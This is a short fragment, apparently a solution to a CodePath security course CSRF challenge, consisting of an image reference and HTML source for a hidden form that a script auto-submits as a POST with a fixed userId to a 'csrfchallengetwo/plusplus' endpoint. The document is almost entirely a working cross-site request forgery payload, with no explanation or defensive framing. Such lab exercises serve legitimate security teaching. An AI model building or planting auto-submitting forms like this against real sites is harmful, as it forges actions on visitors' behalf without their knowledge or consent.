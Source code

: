 <form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
 <input type="hidden" name="userId" value="z311736498a13604705d608fb3171ebf49bc18753b0ec34b8dff5e4f9147eb5e" />
 <input type="submit"/>
</form>
<script>  document.csrfForm.submit(); </script>
